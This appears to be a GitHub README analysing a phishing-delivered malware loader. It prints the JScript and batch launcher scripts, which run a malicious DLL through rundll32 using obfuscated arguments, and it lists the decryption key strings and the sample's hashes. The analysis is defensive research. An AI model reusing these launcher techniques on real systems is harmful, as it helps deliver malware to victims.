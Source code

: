 # 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

## Loader extractor for sample tiddler.dat

Three days ago a friend of mine received a phishing e-mail with a link (https[:]//lynxus[.]com/usq/refeidpisnretse) containing a zip file protected by the password "U492". 

<img width="1262" alt="0" src="https://user-images.githubusercontent.com/15001354/193664727-69ee625c-3a4d-4eea-8e71-5e718b625086.png">

Inside the zip there is an ISO called Learn#7435.iso containing a shortcut to the following malicious script:

~~~
// observablyCleaned
var undisruptedPuzzles = "rund DllRegis";

// ShellExecute
var bridgeheadsLibels = new ActiveXObject("shell.application").shellexecute("assaulting\\redressingLamentations.cmd", undisruptedPuzzles, "", "open", 0);
~~~

<img width="1134" alt="1" src="https://user-images.githubusercontent.com/15001354/193664786-75664000-6658-4582-9d27-258bd18f9d39.png">


The script uses ActiveXObject in order to execute another script called redressingLamentations.cmd (in the ISO) by passing the arguments "rund" and "DllRegis". 

Following the redressingLamentations.cmd script:

~~~
@echo off

	set a=ll
	set e=32

	:: tankageLicentiously
	%1%a%%e% assaulting\tiddler.dat,%2terServer

exit
~~~

It runs the command rundll32 assaulting\tiddler.dat,DllRegisterServer in order to start the malicious DLL.

After a bit of analysis, I wrote this simple script to extract the loader in order to practice a bit with python. 
The two strings used to generate the key are taken dynamically, the shellcode is taken dynamically by using the size offset that is hardcoded.
I'll try to write the second stage DLL extractor.

The malicious DLL was uploaded to [Malware Bazaar](https://bazaar.abuse.ch/sample/5b54f57dbaa74fa589afb2d26d6c6b39e0c2930bd88fea3172556ce96b3eb959/) by JAMESWT_MHT.


These two strings are used to generate the key:

* ewZOSoNXdJTjGtfGFtJwDGnslgItKrqSOoXTBEUIeNsATwlqubQMeKZByuBEOxjyadypZOaxQyRosZjVcChW
* gjdhkdfgkjsdghfkjsdhkjslfdghsdkjl

The key is:

* 7fafab656017bf33b9606982e6a6f277

HASHES:

* SHA256: 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

* SHA3-384: ad33f268a26d4ec762431f9601a24431cb37f16afa7859f61ce2702093803d45837a3629db92a64fd892a83a72ee8a98

* SHA1: 4aa4e28cd07e218e45ec60942c53d82c3f50fea7

* MD5: 7754a35deec807d757f79165ba17708d


